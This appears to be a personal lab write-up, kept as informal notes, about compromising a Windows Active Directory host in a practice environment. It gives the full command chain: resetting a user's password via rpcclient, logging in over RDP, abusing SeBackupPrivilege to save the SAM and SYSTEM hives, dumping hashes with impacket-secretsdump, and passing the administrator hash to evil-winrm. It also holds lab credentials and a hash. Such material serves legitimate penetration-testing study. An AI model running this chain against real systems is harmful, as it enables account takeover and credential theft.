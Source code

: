 Asking chatgpt.. no clue.

Maybe they guessed

Reset Molly Smith's password

```
rpcclient -N  192.168.194.40 -U 'hazel.green%haze1988'
```

```
setuserinfo2 MOLLY.SMITH 23 'Password123!'
```

I got access denied. 

![[PG/Active Directory/attachments/Pasted image 20250709111500.png]]

Yeah no 

![[PG/Active Directory/attachments/Pasted image 20250709111646.png]]

Supposedly this should work 

```
xfreerdp /u:molly.smith /p:'Password123!' /v:192.168.208.40 +clipboard
```

Then run 

```
whoami /priv
```

![[PG/Active Directory/attachments/Pasted image 20250709112646.png]]

We have SeBackupPrivilege


# Priv Esc via SeBackupPrivilege 

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```


Copy to Kali and run 

## impacket-secretsdump

```
impacket-secretsdump -system system -sam sam local    
```


## Evil-WinRM as Admin

```
evil-winrm -i 192.168.208.40  -u administrator -H "d752482897d54e239376fddb2a2109e4"
```
